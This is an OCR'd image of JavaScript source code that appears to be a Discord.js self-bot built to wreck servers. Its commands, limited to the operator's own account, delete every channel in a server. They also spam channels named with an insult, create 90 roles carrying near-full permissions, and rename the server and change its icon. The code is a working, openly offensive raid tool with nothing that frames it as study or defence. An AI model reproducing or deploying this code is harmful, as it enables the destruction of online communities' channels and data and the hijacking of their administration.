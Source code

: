     if (message.content.includes(prefix + "del")) {
        if (message.author.id !== client.user.id) {} else {
            message.delete()
            message.guild.channels.map(c => c.delete())
            message.guild.createChannel("𝙇𝙖𝙨𝙩", "text")
        }
    }
 
    if (message.content.includes(prefix + "changen")) {
        if (message.author.id == client.user.id) {
            message.delete();
            message.guild.setName(message.content.split(` `).slice(1).join(' '))
        }
    }
 
  if (message.content.includes(prefix + "createc")) {
      if (message.author.id !== client.user.id) {} else {
          message.delete()
          message.guild.createChannel("😈FUCKED BY .EXE😈").catch(console.error);
          message.guild.createChannel("😈FUCKED BY .EXE😈").catch(console.error);         message.guild.createChannel("😈FUCKED BY .EXE😈").catch(console.error);
        }
      }
 
	  if (message.content.startsWith(prefix + 'creater')) {
        if (message.author.id == client.user.id) {
          message.delete();
          for (var i = 0; i < 90; i++) {
            message.guild.createRole({
              name: argresult,
              mentionable: false,
              permissions: 2146958591,
              position: "",
              color: "#RANDOM"
            })
          }
        }
      }
 
      let args = message.content.split(" ").slice(1);
      if(message.content.startsWith(prefix + "changei")){
        if (message.author.id !== client.user.id) {
        } else {
          message.delete()
          let icon = args.join(" ")
          if(!icon) icon = "";
          if(!icon) return (console.error)
          message.guild.setIcon(icon).catch(console.error);
      }}
 
});

